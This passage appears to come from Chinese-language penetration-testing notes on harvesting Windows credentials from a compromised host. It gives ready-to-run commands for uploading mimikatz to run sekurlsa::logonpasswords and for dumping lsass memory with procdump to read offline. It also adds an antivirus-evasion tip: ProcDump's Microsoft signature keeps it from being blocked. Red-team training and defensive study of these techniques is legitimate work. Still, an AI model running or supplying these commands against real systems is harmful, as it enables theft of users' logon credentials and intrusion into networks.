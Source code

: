 将`mimikatz.exe`上传到目标主机，执行以下命令：

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
# privilege::debug提升至DebugPrivilege权限
# sekurlsa::logonpasswords导出用户凭据
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%206.png)

### 离线读取lsass内存文件

利用方式为先将`lsass.exe`的进程内存转储，将内存文件导出到本地后，使用`mimikatz`进行离线读取。用于转储进程内存的工具有很多，例如`OutMinidump.ps1`、`ProcDump`（是微软的软件，有微软的签名证书，不会被杀软拦截）、`SharpDump`等。利用工具下载：[https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump)。

将`procdump.exe`上传到目标主机，执行以下命令：

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

接着利用`mimikatz.exe`来获取转储的进程内存中的信息，执行以下命令：

```powershell
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" exit
# sekurlsa::minidump lsass.dmp用于加载内存文件
# sekurlsa::logonpasswords导出用户凭据
```
